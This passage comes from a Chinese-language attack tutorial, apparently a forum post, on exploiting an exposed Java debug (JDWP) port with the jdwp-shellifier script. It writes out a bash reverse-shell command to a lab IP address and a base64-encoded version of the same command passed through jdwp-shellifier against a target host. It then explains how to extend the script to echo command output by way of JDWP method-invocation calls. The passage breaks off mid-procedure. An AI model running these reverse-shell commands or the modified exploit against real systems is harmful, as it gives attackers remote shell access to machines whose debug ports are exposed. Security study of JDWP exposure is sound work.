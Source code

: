 将反弹Shell的命令进行编码处理

```shell
/bin/bash -i >& /dev/tcp/192.168.182.129/6666 0>&1
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-3247580105807bb3fe38d3b30590bf8c0493dbc9.png)

利用脚本执行反弹Shell的命令

```shell
python2 jdwp-shellifier.py -t 192.168.182.130 -p 8000 --break-on "java.lang.String.indexOf" --cmd "bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTgyLjEyOS82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}"
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-668d2ddb8aa254985ccf48701986f8d03968655f.png)

#### 脚本改造

使用jdwp-shellifier脚本执行命令默认是没有回显的，脚本是使用Runtime类的exec方法执行命令，仅实现了执行命令的功能，没有实现将命令执行的结果回显出来，下面改造下脚本实现命令执行回显

在Java中可以使用如下代码执行命令并将命令执行结果输出：

```java
Process process = Runtime.getRuntime().exec("id");
InputStream input = process.getInputStream();
InputStreamReader isr = new InputStreamReader(input);
BufferedReader br = new BufferedReader(isr);
String line = null;
while ((line = br.readLine()) != null) {
    System.out.println(line);
}
```

通过前面的分析我们知道jdwp-shellifier脚本是实现了第一行代码的功能，执行我们的命令返回一个Process对象，我们可以照着Java代码来一步步实现命令执行结果回显

首先是实现调用Process对象的getInputStream方法，可以通过向被调试JVM端发送`(ObjectReference, InvokeMethod)`命令来调用指定对象的指定方法，执行方法调用要传入Process类的refTypeId和getInputStream方法的methodId，所以需要先获取这两个信息，然后再执行方法调用，编写如下代码实现功能，如果调用方法成功就会返回InputStream对象ID

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-6235609209e9302d80ba9c6323bb2ab8701832e7.png)

下一步是实现得到一个InputStreamReader实例化对象，可以通过向被调试JVM端发送`(ClassType, NewInstance)`命令调用类的指定构造方法来创建实例化对象，创建InputStreamReader对象要传入InputStreamReader类的refTypeId和指定构造方法的methodId

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-81f6a7d7bdf9a42d2eeba301a122666b62627136.png)

另外还要将前面获取到的InputStream对象ID作为参数传入，编写如下代码实现功能，如果执行成功就会返回InputStreamReader对象ID

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-9fd424e2d9b227249f6ecc8a57bc4c1cb8eaed28.png)

再下一步是实现得到一个BufferedReader实例化对象，同样是调用指定构造方法，将InputStreamReader对象ID作为参数传入，编写如下代码实现功能，如果执行成功就会返回BufferedReader对象ID

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-e60c1bec13d9487cdd8ff63d170366c200ebc5f1.png)

